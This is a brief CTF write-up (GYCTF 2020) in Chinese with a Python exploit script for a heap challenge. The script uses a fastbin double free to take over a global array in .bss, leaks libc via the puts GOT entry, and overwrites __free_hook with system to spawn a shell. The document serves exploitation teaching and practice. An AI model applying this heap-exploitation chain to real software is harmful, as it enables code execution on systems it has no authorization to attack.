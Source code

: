 ### message

利用 double free 欺骗 malloc 分配一个位于 bss 段的 chunk，使得我们可以控制全局数组，从而修改 0 号堆块的内容。然后先泄露 libc 再劫持 `__free_hook` 到 `system` 即可。需要注意 fastbin 的大小检查。

```python
def add(size,content='a'):
    sla(':','1')
    sla(':\n',str(size))
    sa(':\n',content)

def free(index):
    sla(':','2')
    sla(':\n',str(index))

def edit(index,content):
    sla(':','3')
    sla(':\n',str(index))
    sa(':\n',content)

def show(index):
    sla(':','4')
    sla(':\n',str(index))

add(0x50) # 0
add(0x40) # 1
add(0x40) # 2
free(1)
free(2)
free(1)

fake = 0x602060-0x8
add(0x40,p64(fake)) # 3 <-> 1
add(0x40) # 4 <-> 2
add(0x40) # 5 <-> 1
add(0x40,p64(elf.got['puts'])) # 6 <-> fake
show(0)
ru(':')
puts = uu64(r(6))

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
free_hook = base + libc.dump('__free_hook')

edit(6,p64(free_hook))
edit(0,p64(system))
add(0x8,'/bin/sh\x00') # 7
free(7)
```

## GYCTF 2020
